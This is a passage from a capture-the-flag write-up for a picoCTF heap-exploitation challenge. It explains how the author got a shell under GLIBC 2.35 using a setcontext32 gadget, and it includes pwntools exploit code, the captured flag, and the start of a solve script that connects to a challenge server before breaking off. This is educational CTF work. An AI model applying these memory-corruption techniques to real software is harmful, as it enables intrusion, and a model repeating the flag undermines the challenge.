 With our libc leak obtained, we can now try to get a shell. This should be simple... but in GLIBC 2.35, `__free_hook` and `__malloc_hook` are gone. How do we utilize our arbitrary write to get a shell?

### Step 3 - just get a shell already
There are actually a lot of ways we could have done this. I tried overwriting libc GOT entries with one_gadgets, but none of them seemed to work. Overwriting atexit handlers or the stack would also work, but they would need extra leaks which I was too lazy to get.

Ultimately, I realized something that the challenge author told me about when we were chilling in DC together last month... the `setcontext32` gadget. This allows for calling a function with all registers controlled, just from controlling the beginning of the writable section of libc. Looking it up to refresh my memory, I found that he had even written a [blog post](https://hackmd.io/@pepsipu/SyqPbk94a) about it! 

Now, all there was left to do was use the function provided in the post, and adjust my helper function to allow me to control the beginning of the chunk:

```python
dest, pl = setcontext32(
        libc, rip=libc.sym["system"], rdi=libc.search(b"/bin/sh").__next__()
    )

def send_raw(content, sz, end=True) :
    sock.recvuntil("PKT_RES")
    sock.send(p64(sz))
    payload = content
    sock.sendline(payload)

payload = b"a"*(8*6)
payload += p64(dest)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
send_echo(payload, 0x50) # new tcache_perthread_struct

send_raw(pl[8:], 0) # we want first qword to be 0 because payload is cut off, this convenitently sets the right bytes by setting size to 0

conn.interactive()
```

With this, we get a shell, and we can get the flag: `picoCTF{mm4p_mm4573r_de3d190b}`

Thanks to [pepsipu](https://pepsipu.com/) for a really cool challenge!

Solve script:
```python
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF("./hft_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

#sock = conn = process()
sock = conn = remote("tethys.picoctf.net", 57462)

def send_ping(content, sz):
    sock.recvuntil(b"PKT_RES")
    sock.send(p32(sz))
    sock.sendline(p32(0) + p64(0) + content)

def send_echo(content, sz, end=True) :
    sock.recvuntil(b"PKT_RES")
```